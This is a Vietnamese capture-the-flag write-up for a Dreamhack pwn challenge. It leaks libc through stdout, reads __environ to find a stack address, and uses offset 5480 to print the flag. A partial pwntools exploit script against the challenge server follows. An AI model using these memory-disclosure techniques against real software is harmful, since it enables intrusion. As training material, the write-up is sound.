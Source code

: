 ```

11 . __environ
--------


- reverse :
- hàm read_file để ghi flag vô stack → vậy cần chú ý đến stack ( leak dc stack address hay gì đó )
- scanf đầu tiên để duy trì while nên kh cần chú ý
- scanf thứ 2 in dữ liệu trong địa chỉ ra → ta có thể chèn địa chỉ stack chứa flag vào và nó sẽ in flag ra ( target của bài )

![image](https://hackmd.io/_uploads/H1wmwSsmkx.png)

- vì phần leak đã làm nhiều nên sẽ kh cần nói qua , ta chỉ chú ý đến tìm offset
- tên bài đã nói lên quá nhìu điều :v   , ta cần tính offset giữa con trỏ đến địa chỉ trong __environ với địa chỉ chứa dữ liệu flag

![image](https://hackmd.io/_uploads/rkXDvSsXkl.png)

- offset = 5480

vậy từng bước của bài này như sau :

- bước 1 : leak libc , tìm libc.sym.__environ
- bước 2 : leak dc stack_add trong __environ bằng scanf thứ 2 , tìm offset
- bước 3 : lấy địa chỉ leak dc trừ đi offset sẽ là địa chỉ chứa flag → nhập địa chỉ đó vào và ping pong lấy flag

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./environ_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

context.binary = exe

#p = process(exe.path)
p = remote('host3.dreamhack.games', 20212)
#gdb.attach(p,gdbscript='''
#           b*read_file+88
#           ''')
#input()
p.recvuntil(b'stdout: ')
leak = int(p.recvline().strip(),16)
print("leak: ",hex(leak))
libc.address = leak - libc.sym._IO_2_1_stdout_
print("libc.address: ",hex(libc.address))
env = libc.sym.__environ
print("env: ",hex(env))
#gdb.attach(p,gdbscript='''
#           b*read_file+88
#           ''')
#input()
p.sendlineafter(b'> ',b'1')
p.sendlineafter(b': ',str(env).encode())